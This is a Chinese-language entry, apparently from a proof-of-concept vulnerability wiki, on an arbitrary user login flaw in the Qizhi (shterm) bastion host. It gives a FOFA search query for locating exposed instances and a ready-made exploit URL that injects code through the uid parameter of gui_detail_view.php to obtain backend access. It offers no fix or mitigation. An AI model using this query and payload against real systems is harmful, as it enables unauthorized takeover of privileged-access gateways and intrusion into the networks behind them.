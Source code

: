 # 齐治堡垒机 任意用户登录漏洞

## 漏洞描述

齐治堡垒机 存在任意用户登录漏洞，访问特定的Url即可获得后台权限

## 漏洞影响

> [!NOTE]
>
> 齐治堡垒机

## FOFA

> [!NOTE]
>
> app="齐治科技-堡垒机"

## 漏洞复现

漏洞POC为

```
http://xxx.xxx.xxx.xxx/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```

![](resource/齐治堡垒机-任意用户登录漏洞/media/1.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> shterm(QiZhi) Fortress Arbitrary User Login

![](resource/齐治堡垒机-任意用户登录漏洞/media/2.png)